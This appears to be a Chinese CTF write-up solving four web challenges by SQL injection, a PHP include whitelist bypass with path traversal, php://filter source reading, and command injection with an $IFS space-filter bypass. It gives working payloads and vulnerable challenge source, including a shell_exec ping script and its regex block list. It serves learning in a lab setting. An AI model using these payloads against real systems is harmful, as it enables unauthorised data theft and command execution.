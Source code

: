 1.sql注入
-
```
1' order by 2; 两列
```
```
1' union select 1,2;  注入点在第二列
```
![image](https://github.com/xhsy0314/Task/assets/84487619/eb055036-2882-4638-b338-405d6c2e1b38)

```
1' union select 1,group_concat(sql) from sqlite_master;
```
![image](https://github.com/xhsy0314/Task/assets/84487619/50ffb106-0610-46c8-a8e1-0b9ea4db5493)

```
-1' union select 1,group_concat(flaaag) from flaaaaa_aag;
```
![image](https://github.com/xhsy0314/Task/assets/84487619/67694d40-feb4-411a-8b83-9fc80e74ea8a)


2.php
-

```
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }
```

查看源码，有个hint.php访问一下<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/b4e0d62c-591b-4e42-ac93-24fd0e8ad0ac)
<br>
最底部的if语句为执行条件，有三个条件，第一个判断文件不能为空（检查是否传了file参数），第二这个传的参数是字符串，第三要过白名单检测，过了之后包含 隐藏了flag的文件。我们再看上面的if语句，白名单是hint.php，又有mb_strpos和mb_substr截取内容，碰到？就截止，所以我们只需要输入 source.php?file=source.php?即可绕过白名单检测，然后在输入../逐级跳转目录读取flag即可，可以一个一个试,多试几次则找到了flag<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/e62557ea-d228-4f27-a162-0d282f0cb135)
<br>
知识点:

* empty() 函数用于检查一个变量是否为空。
* empty() 判断一个变量是否被认为是空的。当一个变量并不存在，或者它 的值等同于 FALSE，那么它会被认为不存在。如果变量不存在的话，empty()并不会产生警告。
* empty() 5.5 版本之后支持表达式了，而不仅仅是变量。

* mb_substr() 函数返回字符串的一部分，之前我们学过 substr() 函数，它只针对英文字符，如果要分割的中文文字则需要使用 mb_substr()。
注释：如果 start 参数是负数且 length 小于或等于 start，则 length 为 0。

* mb_strpos()：返回要查找的字符串在别一个字符串中首次出现的位置(即数字)

* .表示当前目录
* . .表示当前目录的上一级目录。
* . ./表示当前目录下的某个文件或文件夹，视后面跟着的名字而定
* ./表示当前目录上一级目录的文件或文件夹，视后面跟着的名字而定。
* 例如：
        文件夹 a
        下面有 文件夹b c 和文件 d。
        文件夹b下面有e.php 和文件f。
        则e中的 . 表示 文件夹b
        ./f 表示b下面的文件f。
        . .表示a文件夹。
        . ./d 表示a文件夹下的d文件。

3.php伪协议
-


php支持的伪协议：
```
1 file:// — 访问本地文件系统
2 http:// — 访问 HTTP(s) 网址
3 ftp:// — 访问 FTP(s) URLs
4 php:// — 访问各个输入/输出流（I/O streams）
5 zlib:// — 压缩流
6 data:// — 数据（RFC 2397）
7 glob:// — 查找匹配的文件路径模式
8 phar:// — PHP 归档
9 ssh2:// — Secure Shell 2
10 rar:// — RAR
11 ogg:// — 音频流
12 expect:// — 处理交互式的流
```

1.php://filter:可以获取指定文件源码。当它与包含函数结合时，php://filter流会被当作php文件执行。所以我们一般对其进行编码，让其不执行。从而导致 任意文件读取。<br>

```
php://filter/read=convert.base64-encode/resource=index.php
php://filter/resource=index.php
```
利用filter协议读文件±，将index.php通过base64编码后进行输出。这样做的好处就是如果不进行编码，文件包含后就不会有输出结果，而是当做php文件执行了，而通过编码后则可以读取文件源码。

而使用的convert.base64-encode，就是一种过滤器。

<br>

**例题**
<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/d63f1fcd-2401-48d9-9baf-632075c45976)
<br>

看到这样的格式和题目 include 也很容易想起文件包含和PHP伪协议。
所以，直接用伪协议读取flag.php的源码构造 payload
```
 ?file=php://filter/read=convert.base64-encode/resource=flag.php
```

4.过滤
-

已经通过127.0.0.1;ls 发现了两个文件<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/d621b093-2036-4318-9900-413f12d0d23b)

<br>

```
/?ip=1;cat index.php
```

发现过滤了空格。

```
/?ip=1;cat$IFS$1index.php
```
**知识点**：IFS在系统命令里是空格的意思，它的前后面加$是为了固定这个语句，不然和其他字符串行会出错，后面的$1是空字符，也可以写成${IFS}或${IFS}$9之类的，但{IFS}这个不行，因为{}被过滤了。
输入后获得index.php内容：

```
/?ip=
PING 1 (0.0.0.1): 56 data bytes
/?ip=
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "
";
  print_r($a);
}
?>
```

